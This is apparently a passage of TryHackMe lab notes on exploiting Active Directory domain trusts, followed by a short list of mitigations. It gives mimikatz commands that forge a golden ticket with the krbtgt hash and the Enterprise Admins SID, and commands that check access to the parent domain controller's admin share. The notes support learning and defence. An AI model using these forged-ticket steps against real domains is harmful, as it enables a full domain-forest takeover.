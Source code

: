 ##### Exploiting Domain Trusts

`privilege::debug`
`kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:<child domain's SID> /service:krbtgt /rc4:<password hash of krbtgt user> /sids:<SID of EA group> /ptt` - Generate the golden ticket from mimikatz.

`dir \\thmdc.za.tryhackme.loc\c$` - Verify the ticket gives you access to THMDC, since it's a valid ticket for the Administrator.
`dir \\thmrootdc.tryhackme.loc\c$\` - Verify you have access to the parent domain
## Conclusion

##### Mitigations

- Ensure no configuration breaks the tiering model, someone from lower tier shouldn't be able to interact with a higher tier and someone from a higher tier shouldn't log onto resources from a lower tier.
- The principle of least privilege should be followed when permission delegation is performed.
- SMB signing should be enforced.
- AD objects are not the only paths for exploitation, AD services like AD CS should also be secured.
- Implement sufficient security controls to protect Tier 0 infrastructure and accounts in our child domains since a compromise of one could lead to the compromise of the entire forest.